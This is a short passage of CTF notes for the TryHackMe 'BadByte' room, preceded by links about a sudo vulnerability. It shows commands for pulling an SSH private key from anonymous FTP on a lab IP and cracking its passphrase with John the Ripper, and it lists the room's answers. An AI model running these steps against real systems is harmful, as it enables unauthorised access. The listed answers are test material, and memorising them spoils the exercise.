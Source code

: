 [](https://nakedsecurity.sophos.com/2013/11/04/anatomy-of-a-password-disaster-adobes-giant-sized-cryptographic-blunder/)

**Sudo CVE**  
[https://dylankatz.com/Analysis-of-CVE-2019-18634/](https://dylankatz.com/Analysis-of-CVE-2019-18634/)[](https://dylankatz.com/Analysis-of-CVE-2019-18634/)  
[https://nvd.nist.gov/vuln/detail/CVE-2019-18634](https://nvd.nist.gov/vuln/detail/CVE-2019-18634)[](https://nvd.nist.gov/vuln/detail/CVE-2019-18634)  
[https://tryhackme.com/room/sudovulnsbof](https://tryhackme.com/room/sudovulnsbof)

-------
## BadByte

#### Reconnaissance

How many ports are open?
```
2
```

What service is running on the lowest open port?
```
ssh
```

What non-standard port is open?
```
30024ftp
```

What service is running on the non-standard port?
```
ftp
```

#### Foothold

What username do we find during the enumeration process?
```
ftp anonymous@10.10.73.91 -P 30024
get note.txt
get id_rsa

errorcauser
```

What is the passphrase for the RSA private key?
```
python3 ssh2john.py id_rsa > privatekey.hash
sudo john privatekey.hash

cupcake
```

#### Port Forwarding
